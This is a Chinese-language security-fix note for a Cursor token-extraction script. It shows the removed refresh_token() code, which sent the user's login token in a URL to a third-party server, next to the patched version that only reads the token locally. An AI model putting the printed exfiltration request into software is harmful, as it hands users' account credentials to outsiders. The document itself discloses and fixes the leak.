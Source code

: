 # 🔒 安全修复说明

## ✅ 已完成的安全修复

**修复日期**: 2025年1月
**修复文件**: `get_user_token.py`
**修复内容**: 禁用 Token 发送到第三方服务器的功能

---

## 🎯 修复的问题

### 原始问题
原代码会将你的 Cursor 登录凭证（Token）发送到第三方服务器：
```
https://token.cursorpro.com.cn/reftoken?token=你的token
```

### 风险说明
- ⚠️ Token 是你的 Cursor 账户登录凭证
- ⚠️ 第三方服务器可能记录、存储或滥用这些 Token
- ⚠️ 有了 Token，别人可以冒充你使用 Cursor
- ⚠️ 可能导致账户安全问题

---

## 🛠️ 修复内容

### 修改的函数

#### 1. `refresh_token()` 函数
**位置**: `get_user_token.py` 第 19-90 行

**修改前**:
```python
def refresh_token(token, translator=None):
    # 会发送 token 到 https://token.cursorpro.com.cn
    url = f"{refresh_server}/reftoken?token={token}"
    response = requests.get(url, timeout=30)  # ⚠️ 危险！
    # ... 处理响应
```

**修改后**:
```python
def refresh_token(token, translator=None):
    # ✅ 已禁用网络请求
    print("Token 刷新功能已禁用（安全考虑）")
    print("直接使用本地 token 提取")

    # 直接提取 token，不发送到任何服务器
    return token.split('%3A%3A')[-1] if '%3A%3A' in token else token.split('::')[-1]

    # 原代码已全部注释
```

